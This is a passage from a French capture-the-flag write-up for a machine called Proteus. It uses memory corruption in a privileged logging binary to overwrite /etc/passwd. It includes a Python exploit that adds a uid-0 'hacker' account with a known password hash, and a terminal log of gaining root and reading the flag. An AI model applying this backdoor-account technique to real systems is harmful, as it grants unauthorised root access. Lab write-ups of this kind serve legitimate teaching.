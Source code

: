 ```plain
f7f2a000-f7f2c000 r-xp 00000000 00:00 0                                  [vdso]
f7f2c000-f7f4f000 r-xp 00000000 fd:01 9306251                            /lib/i386-linux-gnu/ld-2.23.so
f7f4f000-f7f50000 r--p 00022000 fd:01 9306251                            /lib/i386-linux-gnu/ld-2.23.so
f7f50000-f7f51000 rw-p 00023000 fd:01 9306251                            /lib/i386-linux-gnu/ld-2.23.so
ff8a2000-ff8c3000 rw-p 00000000 00:00 0                                  [stack]
```

On a un crash du à la libération du chunk corrompu à la fin mais le mal est fait.  

On peut écrire dans */etc/passwd* pour l'exploitation, seulement le path destination doit aussi correspondre au shell qui sera exécuté lorsque l'on se connectera avec le compte ajouté.  

La solution que j'ai utilisé est de spécifier une ligne de */etc/passwd* où le shell correspondra à */tmp/backdoor/etc/passwd*. Avec suffisemment de padding le path écrasé sera */etc/passwd* comme attendu et il nous suffira de copier un bash à l'emplacement */tmp/backdoor/etc/passwd* pour rendre notre compte utilisable.  

Voici l'exploit :  

```python
target = "/etc/passwd"
# openssl passwd -1 -salt hacker s3cr3t
new_line = "hacker:$1$hacker$FCIsmt1ka5qjzYea7swTv0:0:0:{}:/root:/tmp/backdoor"
min_length = len(new_line.format(""))
padding = 456 - min_length
payload = new_line.format(padding * "A") + target
print(payload)
```

Et finalement :  

```plain
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger `python3 /tmp/exploit.py`
Writing datafile 0x954e1d0: '/etc/passwd'
*** Error in `./admin_login_logger': double free or corruption (!prev): 0x0954e008 ***
www-data@Proteus:/home/malwareadm/sites/proteus_site$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
--- snip ---
malwareadm:x:1000:1000:malwareadm,,,:/home/malwareadm:/bin/bash
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
!
hacker:$1$hacker$FCIsmt1ka5qjzYea7swTv0:0:0:AAAAAA--- snip ---AAAAAAA:/root:/tmp/backdoor/etc/passwd
www-data@Proteus:/home/malwareadm/sites/proteus_site$ mkdir -p /tmp/backdoor/etc/
www-data@Proteus:/home/malwareadm/sites/proteus_site$ cp /bin/bash /tmp/backdoor/etc/passwd
www-data@Proteus:/home/malwareadm/sites/proteus_site$ su hacker
Password:
root@Proteus:/home/malwareadm/sites/proteus_site# id
uid=0(root) gid=0(root) groups=0(root)
root@Proteus:/home/malwareadm/sites/proteus_site# cd /root
root@Proteus:~# ls
flag.png
root@Proteus:~# md5sum flag.png ;file flag.png
f441dd67d2f453b97775253cf1beb6a4  flag.png
flag.png: PNG image data, 700 x 700, 8-bit/color RGBA, non-interlaced
```
